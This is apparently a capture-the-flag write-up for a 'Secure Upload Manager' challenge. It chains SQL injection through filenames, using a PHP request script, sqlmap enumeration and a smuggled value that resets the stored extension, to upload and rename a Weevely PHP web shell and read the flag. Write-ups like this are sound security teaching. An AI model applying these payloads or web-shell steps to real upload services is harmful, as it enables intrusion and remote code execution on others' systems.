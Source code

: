 # Secure Upload Manager

<img src="attachments/0.jpg" title="" alt="" width="584">

Try to upload file with single quote in a file name.

![](attachments/1.jpg)

Try to rename it.

![](attachments/2.jpg)

SQL Error

![](attachments/3.jpg)

It can SQL injection with filename.

Write PHP payload to upload image , rename image and delete image.

```
<?php

$oldname = $_POST["oldname"];
$url = "http://34.142.233.148/upload.php";

// I guess the file is in the same directory as this script
$file = __DIR__.'\test.png'; 

$headers = [
    'Content-Type: multipart/form-data',
    'User-Agent: '.$_SERVER['HTTP_USER_AGENT'],
];

$fields = [
    'upfile' => new CURLFile($file, 'image/png', $oldname.'.png')
];

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, false);
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);
curl_setopt($ch, CURLOPT_POSTFIELDS, $fields);
$result0 = curl_exec($ch);

$ch2 = curl_init();
curl_setopt($ch2, CURLOPT_URL,            "http://34.142.233.148/rename.php" );
curl_setopt($ch2, CURLOPT_RETURNTRANSFER, 1 );
curl_setopt($ch2, CURLOPT_POST,           1 );
curl_setopt($ch2, CURLOPT_POSTFIELDS,     "oldname=".urlencode($oldname)."&newname=lmn" ); 
curl_setopt($ch2, CURLOPT_HTTPHEADER,     array('Content-Type: application/x-www-form-urlencoded')); 

$result = curl_exec($ch2);

echo $result;


$ch3 = curl_init();
curl_setopt($ch3, CURLOPT_URL,            "http://34.142.233.148/delete.php" );
curl_setopt($ch3, CURLOPT_RETURNTRANSFER, 1 );
curl_setopt($ch3, CURLOPT_POST,           1 );
curl_setopt($ch3, CURLOPT_POSTFIELDS,     "filename=lmn" ); 
curl_setopt($ch3, CURLOPT_HTTPHEADER,     array('Content-Type: application/x-www-form-urlencoded')); 
$result3 = curl_exec($ch3);
exit;
?>
```

Use SQL Map.

![](attachments/4.jpg)

Get DB Name.

![](attachments/5.jpg)

Get table name.

![](attachments/6.jpg)

Get column name.

![](attachments/7.jpg)

It has extension column.

The website rename the filename based on a data in database.

If I change extension column in database to "", you'll be able to rename a filetype.

I uploaded test3.jpg',extension='.jpg .

| filename               | extension |
| ---------------------- | --------- |
| test3.jpg',extension=' | jpg       |

I rename test3.jpg',extension=' (enter filename without extension in rename page) to aaa.jpg .

| filename | extension |
| -------- | --------- |
| aaa.jpg  |           |

After that, I created PHP Shell with Weevely.

![](attachments/8.jpg)

Rename it to aaa.jpg and upload it.

![](attachments/9.jpg)

| filename | extension |
| -------- | --------- |
| aaa.jpg  |           |
| aaa      | jpg       |

Rename it to aaa.php .

![](attachments/10.jpg)

| filename | extension |
| -------- | --------- |
| aaa.php  |           |
| aaa      | jpg       |

Locate to /upload/aaa.php and connect it with weevely.

![](attachments/11.jpg)

Type env and you'll see a flag.

![](attachments/12.jpg)

